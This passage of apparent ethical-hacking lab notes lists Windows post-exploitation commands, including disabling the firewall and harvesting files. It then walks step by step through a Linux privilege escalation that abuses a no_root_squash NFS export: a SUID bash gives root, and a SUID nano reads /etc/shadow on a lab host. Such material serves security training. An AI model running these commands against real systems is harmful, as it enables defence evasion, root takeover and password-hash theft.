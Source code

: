   + list all available services
+ netsh firewall show state
+ netsh firewall show config
+ wmic /node:"" product get name,version,vendor
  + show details of installed software
+ wmic cpu get
  + show processor information
+ wmic useraccount get name,sid
  + show SID of users
+ wmic os where Primary='TRUE' reboot
  + reboot target system

#### Other Post Exploitation Commands

|Command|Description|
|---|---|
|net start or stop|Starts/stops a network service|
|netsh advfirewall set currentprofile state off|Turn off firewall service for Current profile|
|netsh advfirewall set allprofiles state off|Turn off firewall service for all profiles|

#### Other Post Escalating Privileges Commands

|Command|Description|
|---|---|
|findstr /E ".txt" > txt.txt|Retrieves all the text files (needs privileged access)|
|findstr /E ".log" > log.txt|Retrieves all the log files|
|findstr /E ".doc" > doc.txt|Retrieves all the document files|

### Task 4: Escalate Privileges in Linux Machine by Exploiting Misconfigured NFS 

+ Open Terminal in Ubuntu
+ sudo apt-get update
+ sudo apt install nfs-kernel-server
+ sudo nano /etc/exports
+ /home *(rw,no_root_squash)
+ sudo /etc/init.d/nfs-kernel-server restart
+ Open Terminal in Parrot
+ nmap -sV 10.10.1.9
+ sudo apt-get install nfs-common
+ showmount -e 10.10.1.9
+ mkdir /tmp/nfs
+ sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
+ cd /tmp/nfs
+ sudo cp /bin/bash .
+ sudo chmod +s bash
+ ls -la bash
+ sudo df -h
+ ssh -l ubuntu 10.10.1.9
+ cd /home
+ ls
+ ./bash -p
+ id
  + get id of users
+ whoami
+ cp /bin/nano .
+ chmod 4777 nano
+ ls -la nano
+ cd /home
+ ls
+ ./nano -p /etc/shadow